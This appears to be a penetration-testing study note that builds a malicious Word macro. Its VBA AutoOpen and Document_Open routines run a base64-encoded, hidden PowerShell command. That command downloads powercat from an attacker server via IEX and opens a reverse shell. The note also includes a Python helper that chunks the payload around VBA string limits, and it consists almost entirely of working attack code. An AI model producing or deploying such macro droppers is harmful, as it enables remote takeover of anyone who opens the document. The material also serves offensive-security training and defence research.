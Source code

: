 # MACROS
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```


base64 encode powercat
must be split into smaller chunks as there is a 255 char limit, this limit does not apply to vars, concat strings with python

encode in powershell / pwsh
```powershell
#powershell 

$text = 'IEX(New-Object System.Net.WebClient).DownloadString("http://[attacker ip]:[attacker http server port]/powercat.ps1");powercat -c [attacker ip] -p [attacker shell listening port] -e powershell'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text) 

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText
```

```python
#python script to split up string, must have no linebreaks
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

final payload
```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "wAgADEAOQAyAC4AMQA2ADgALgA1ADAALgAxADEAMQAgAC0AcAA"
        Str = Str + "gADkAOQA5ADkAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```